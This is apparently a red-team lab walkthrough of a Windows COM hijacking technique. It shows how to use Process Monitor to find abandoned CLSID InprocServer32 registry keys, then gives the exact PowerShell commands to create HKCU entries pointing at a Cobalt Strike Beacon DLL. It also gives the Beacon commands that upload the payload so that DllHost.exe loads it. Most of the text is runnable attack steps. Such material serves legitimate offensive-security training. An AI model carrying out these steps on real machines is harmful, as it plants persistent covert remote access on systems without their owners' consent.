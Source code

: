 Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives. Launch **procmon64.exe** on **Attacker Windows**.

Due to the sheer number of events generated, filtering is essential to find the ones of interest. We're looking for:

-   **RegOpenKey** operations.
-   where the _Result_ is **NAME NOT FOUND**.
-   and the _Path_ ends with **InprocServer32**.

![[Pasted image 20220831120103.png]]

To speed the collection up you click random things, go into the Windows menu, launch applications etc. After just a few minutes, I have over 5,000 events - most of them from Explorer, some from 3rd party software and others from OS components.

![[Pasted image 20220831120111.png]]

One aspect to look out for is the number of times a particular CLSID is loaded. If you hijack one that is loaded every couple of seconds you're going to have a rough time - so it's well worth the additional effort to find one that's loaded semi-frequently but not so much so, or loaded when a commonly-used application (Word, Excel, Outlook etc) is opened.

Scrolling through, I picked out this CLSID being loaded by **C:\\Windows\\system32\\DllHost.exe**

```
HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32
```

We can use some quick PowerShell to show that the entry does exist in HKLM, but not in HKCU.

```powershell
PS C:\> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment


PS C:\> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```

To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.

```powershell
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
PS C:\> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

To generate the DLL, go to **Attacks > Packages > Windows Executable (S)** and select **Windows DLL** as the output type. Then upload the DLL to the location we specified in the registry entry above.
```shell
beacon> cd C:\
beacon> upload C:\Payloads\beacon.dll
```

When **DllHost.exe** loads this COM entry, we get a Beacon.